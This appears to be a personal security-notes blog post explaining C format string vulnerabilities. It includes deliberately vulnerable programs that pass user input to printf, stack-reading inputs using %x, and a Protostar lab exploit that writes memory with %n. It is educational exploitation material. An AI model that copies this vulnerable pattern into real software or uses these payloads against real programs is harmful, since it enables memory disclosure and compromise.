 ```yaml
---
layout: post
title: "format string bug"
date: 2024-06-18
categories: binary-exploitation
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /binary-exploitation/
---
```


# Format String Bug

Some notes on what a format string bug is and how it looks like in real life.

## Overview

Format String bug appears in programs written in C, which means this bug is applicable to all operating systems that have a C compiler, or in other words - most of OSes.

## What is Format String?

> **printf format string** refers to a control parameter used by a class of [functions](https://en.wikipedia.org/wiki/Function\_\(computer\_science\)) in the input/output libraries of [C](https://en.wikipedia.org/wiki/C\_\(programming\_language\)) and many other [programming languages](https://en.wikipedia.org/wiki/Programming\_languages). The string is written in a simple [template language](https://en.wikipedia.org/wiki/Template\_language): characters are usually copied literally into the function's output, but **format specifiers**, which start with a [`%`](https://en.wikipedia.org/wiki/Percent\_sign) character, indicate the location and method to translate a piece of data (such as a number) to characters.\
> [\
> https://en.wikipedia.org/wiki/Printf\_format\_string](https://en.wikipedia.org/wiki/Printf\_format\_string)

In other words, format string allows the programmer to specify how a certain value, say a floating-point number such as money savings, should be printed to the screen.

Let's look at the below code example, where the `savings` variable is defined as a floating value of `345.82`, which is printed to the screen with `printf`, using the format string `Savings: $%f`:

{% hint style="info" %}
The `%f` in the format string tells the `printf()` to print the value of `savings` as a floating-point value.
{% endhint %}

{% code title="fmt-00.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        double savings = 345.82;
        
        // The first argument is the format string.
        // It tells printf to print the value of savings as a floating value.
        printf("Savings: $%f", savings);
        return 0;
}
```
{% endcode %}

Let's compile, run the code and observe the result:

```
gcc .\fmt-00.c -o fmt-00.exe; .\fmt-00.exe
```

...we can see that the `savings` value was printed with 6 decimal places:

![](<../../../.gitbook/assets/image (1076).png>)

However, `$345.820000` is not the precision we need when dealing with money, so it would look better if the value only had 2 decimal places, such as `$345.82`. With the help of format string `Savings: $%.2f`, we can achieve exactly that:

![](<../../../.gitbook/assets/image (1077).png>)

## What is Format String Bug?

Programs become vulnerable to the format string bug when user supplied data is included in the format string the program uses to display the data when in print functions such as (not limited to):

```c
printf
fprintf
sprintf
snprintf
...
```

## Memory Read

Format string vulnerabilities make it possible to read stack memory of the vulnerable program.

Let's look at the sample code provided below, that takes in the user supplied argument 1 and uses it in inside the function `printf`, which means that the user's supplied string is used as a format string for the <mark style="color:blue;">`printf`</mark> function:

{% code title="fmt.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        if( argc != 2 )
        {
                printf("Error - supply a format string please\n");
                return 1;
        }

        printf( argv[1] );
        printf( "\n" );

        return 0;
}
```
{% endcode %}

Let's compile and run the program without feeding it any strings first:

```
gcc .\fmt.c -o fmt.exe; .\fmt.exe
```

![](<../../../.gitbook/assets/image (1078).png>)

Let's now supply a string format, say `Testing: 0x%x`:

```
gcc .\fmt.c -o fmt.exe; .\fmt.exe "Testing: 0x%x"
```

![](<../../../.gitbook/assets/image (1081).png>)

Considering the fact that the format string is supplied, but the corresponding variable is not (which would be provided in the program written by a programmer, however in our case we are supplying the format string to the program via a commandline argument without associated variables), the program simply **starts reading values from the stack memory**. Note that there is nothing preventing us from reading even multiple values from the stack too:

```
gcc .\fmt.c -o fmt.exe; .\fmt.exe "Reading stack memory: 0x%x 0x%x 0x%x 0x%x"
```

![](<../../../.gitbook/assets/image (1080).png>)

The above example illustrates how it may be possible to abuse this bug to read program's stack memory, which may reveal some sensitive information, such as authentication passwords.

## Memory Write

Format string vulnerabilities make it possible to write to arbitrary memory locations inside the vulnerable program.

To see this in action, we're going to use the following purposely vulnerable code from:

{% embed url="https://exploit.education/protostar/format-one" %}

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

```
./format1 "` python -c "print 'AAAA' + 'x38\x96\x04\x08' + 'BBBBBBBBBBBBBBBBBBBBBB' + '%x '*128 " `"; echo
```

### Exploit

```
./format1 "` python -c "print 'AAAA' + 'x38\x96\x04\x08' + 'BBBBBBBBBBBBBBBBBBBBBB' + '%x '*127 + '%n ' " `"; echo
```

{% hint style="info" %}
It's possible to abuse format bugs to execute shellcode, but I could not get my dev environment setup to reproduce the exploitation examples found in the book and online, so these notes are parked for the time being.
{% endhint %}

## References

{% embed url="https://www.wiley.com/en-gb/The+Shellcoder%27s+Handbook%3A+Discovering+and+Exploiting+Security+Holes%2C+2nd+Edition-p-9780470080238" %}

[https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)
@spotheplanet
